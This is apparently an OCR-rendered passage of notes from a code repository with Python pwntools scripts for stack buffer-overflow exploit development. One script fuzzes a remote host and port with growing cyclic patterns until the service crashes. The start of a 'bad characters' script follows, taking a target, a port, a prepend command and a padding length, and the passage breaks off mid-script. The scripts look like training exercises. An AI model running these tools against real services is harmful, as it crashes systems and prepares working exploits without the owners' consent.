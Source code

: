 	prependIsSet=True if prepend else False
	
	
	
	print("[+] Configured Range: Bottom={}, Upper={}".format(botval,upperval))
	print("[+] Configured Incremental Val: {}".format(increment))
	print('[+] Configured Target: {}:{}'.format(host,port))
	print("[+] Configured custom prepend value: {}".format(prepend)) if prependIsSet else print("[-] No custom prepend value set") 
	
	con = remote(host,port)
	try:
	    print("Welcome Msg: " + con.recvline().decode())
	except:
	    print('no welcome msg')
	while(botval<upperval):
	    try:
	        print('[0] Sending {} bytes'.format(botval))
	        con.sendline((prepend+" ").encode() + cyclic(int(botval))) if prependIsSet else con.sendline(cyclic(int(botval)))
	        print((prepend+" ").encode() + cyclic(botval)) if prependIsSet else print(cyclic(botval))
	        print("[1] Output: {}".format(con.recvline().decode()))
	    except:
	        print(Exception())
	        print('system not responding')
	        break
	    botval+=increment
	
	```

- Send BadChars   
	```python
	#!/bin/python
	import argparse
	# resolve argv problem with pwn 
	import pwnlib.args
	pwnlib.args.free_form =False
	from pwn import *
	
	
	# init parser
	parser = argparse.ArgumentParser(description=
	"""Fuzzing easier
	example: python sendbadchar.py -H 192.168.230.128 -P 9999 -p KSTAN
	""")
	# Remote Host
	parser.add_argument('-H','--host',dest='host', help="Set remote target",required=True)
	# Host Port
	parser.add_argument('-P','--port',dest='port', help="Set remote target port",required=True)
	# Prepend an Option
	parser.add_argument('-p','--prepend',dest='prepend', help="Set value custom value required before fuzzing payload")
	# Specify padding length to recreate crash 
	parser.add_argument('-l','--length',dest='pad', help="Set padding length needed",required=True)
	